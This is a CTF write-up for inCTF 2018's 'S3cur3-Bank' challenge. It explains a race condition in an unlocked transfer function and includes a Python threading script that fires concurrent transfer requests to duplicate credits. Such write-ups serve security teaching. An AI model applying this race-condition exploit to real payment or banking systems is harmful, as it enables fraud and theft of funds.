 # S3cur3-Bank

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/9.png)

44/306 = 14% of the teams solved this challenge.

## Reconnaissance

First page is a login/registration page. Let's create a new user and login.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/10.png)

Okay, we can buy the flag for 5000 credits, but combined we only have 2000 credits. My first thought on this is that the application does not perform exclusive locks when moving money.

Psuedo code for the send function would look like this:

```python
send_money(to, amount):
  account_balance = get_account_balance(self)
  if account_balance - amount > 0
      # Enough credits to send
      send_money_to_account(to, amount_send)
      account_balance -=amount_send;
```

The insecure part of this is that there are no exclusive locks. What if we send two requests at basically the same time by using threads.

```python
send_money(A, 500) # account_balance before: 1000
send_money(A, 500) # account_balance before: 1000
```

These requests will read the account_balance which will return 1000.
Then it will send 500 credits to account A. Then subtract 500 from the original account_balance (1000-500=500).

`Account balance after: 500`

Notice something? We've sent 500*2 credits, but we still have 500 in our account. Let's apply this theory to practice.

## Exploiting the bank

```python
import requests
import threading

url = "http://18.188.42.158/bank.php?id=a839eea9f6b192ad586ad41e8bd4d4db"


def make_money():
	data = {"transfer": 500, "account": "Transfer to A"}
	response = requests.post(url,data=data)
	print response.text

try:

	t1 = threading.Thread(target=make_money, args=[])
	t2 = threading.Thread(target=make_money, args=[])
	t1.start()
	t2.start()

except:
   print "Error: unable to start thread"

```

After running the script back a few times transfering money between A and B. We can buy the flag

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/11.png)


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/12.png)
